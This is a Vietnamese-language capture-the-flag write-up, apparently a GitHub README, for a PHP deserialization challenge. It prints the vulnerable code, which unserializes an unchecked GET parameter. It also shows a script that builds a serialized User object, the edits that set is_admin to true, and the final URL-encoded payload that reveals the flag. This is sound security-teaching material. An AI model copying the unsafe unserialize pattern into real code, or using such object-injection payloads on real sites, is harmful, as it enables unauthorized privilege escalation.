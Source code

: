 # CTF Cây nhà lá vườn :D
##  PHP Serialize CTF 
  Link : http://45.122.249.68:10001/

  Source code của bài:

  ```php
<?php
#include "config.php";
class User{
    private $name;
    private $is_admin = false;
    public function __construct($name){
        $this->$name = $name;
    }
    public function __destruct(){
        if($this->is_admin === true){
            echo "hi admin, here is your flag";
        }
    }
}
class Show_color{
    public $color;
    public $type;
    public function __construct($type,$color){
        $this->type = $type;
        $this->color = $color;
    }
     public function __destruct(){
         call_user_func($this->type->adu,$this->color);
     }
}
class do_nothing{
    public $why;
    public $i_use_this;
    public function __construct($a,$b){
        $this->why = $a;
        $this->i_use_this = $b;
    }
    public function __get($method){
        if(isset($this->why)){
            return $this->i_use_this;
        }
        return $method;
    }
}
if(isset($_GET['code'])){
    unserialize($_GET['code']);
}
else{
    highlight_file(__FILE__);
}
?>
  ```

## Ý tưởng của bài 
  ```php
  class User{
  private $name;
  private $is_admin = false;
  public function __construct($name){
      $this->$name = $name;
  }
  public function __destruct(){
      if($this->is_admin === true){
          echo "hi admin, here is your flag";
      }
  }
}
  ```

  Trong hàm __detruct() của class User sẽ kiểm tra điều kiện is_admin === true thì web sẽ in ra kết quả "hi admin, here is your flag". Vậy chỉ cần gán giá trị cho is_admin = 1 là xong. ez :D
  
  ```php
    if(isset($_GET['code']))
    {
        unserialize($_GET['code']);
    }
    else
    {
        highlight_file(__FILE__);
    }
  ```
  Ở đây web sẽ nhận 1 parameter **code** sau đó sẽ unserialize giá trị truyền vào để tiếp tục thực thi. Do giá trị code này không được kiểm tra trước khi thực thi,nên chỉ cần tạo 1 payload serialize sao cho chuyển giá trị is_admin =1 là giải được bài này. 

## Create Payload
  Sử dụng vscode để debug và lệnh php -S 127.0.0.1 9000 code.php để debug trên localhost
 
  <img src="https://imgur.com/nzePFET.png"/>
  
  Tạo thêm 1 đoạn code để tạo serialize payload 

  ```php
  <?php 
    class User{
        private $name;
        private $is_admin = false;
        public function __construct($name){
            $this->$name = $name;
            var_dump($name);
        }
        public function __destruct(){
            if($this->is_admin === true){
                echo "hi admin, here is your flag";
            }
        }
    }  

 	// Create a object
    $a = new User("CaLopChacChuaCoAiLamDuocDau");
    
    // Print a after serialize
 	echo serialize($a);
?>
  ```

  Chạy đoạn code trên : **php -f exploit.php** Kết quả sẽ được 1 chuỗi sau khi serialize

  ```
  O:4:"User":3:{s:10:"Username";N;s:14:"Useris_admin";b:0;s:27:"CaLopChacChuaCoAiLamDuocDau";s:27:"CaLopChacChuaCoAiLamDuocDau";}
  ```

  Sửa lại chuỗi **s:14:"Useris_admin";b:1;**

  ```
  O:4:"User":3:{s:10:"Username";N;s:14:"Useris_admin";b:1;s:27:"CaLopChacChuaCoAiLamDuocDau";s:27:"CaLopChacChuaCoAiLamDuocDau";}
  ```

  Do biến $name và $is_admin là 2 biến được đặt ở private nên khi serialize sẽ tạo ra Username và Useris_admin. Do format khi serialize của PHP
  
  Nhưng khi thực thi payload này kết quả sẽ **không** trả về. Do việc deserialize bị lỗi 

  <img src="https://imgur.com/zyQvjMv.png" />
  
  Vì vậy cần sửa lại payload 1 chút để khi deserialize sẽ cho ra kết quả mong muốn

  ```
  O:4:"User":3:{s:4:"name";N;s:8:"is_admin";b:1;s:27:"CaLopChacChuaCoAiLamDuocDau";s:27:"CaLopChacChuaCoAiLamDuocDau";}
  ```
## Kết quả 
  Thực hiện chèn payload trên vào biến code 

  ?code=O:4:%22User%22:3:{s:4:%22name%22;N;s:8:%22is_admin%22;b:1;s:27:%22CaLopChacChuaCoAiLamDuocDau%22;s:27:%22CaLopChacChuaCoAiLamDuocDau%22;}

  Kết quả ez :D 

  <img src="https://imgur.com/CyXL3sD.png" />

## Tài liệu tham khảo
  PHP Classes and Object : https://www.php.net/manual/en/language.oop5.php

  PHP serialize : https://www.php.net/manual/en/function.serialize.php

  Youtube about POP (Babytalk) : https://www.youtube.com/watch?v=DDxRn3CNdeQ


  


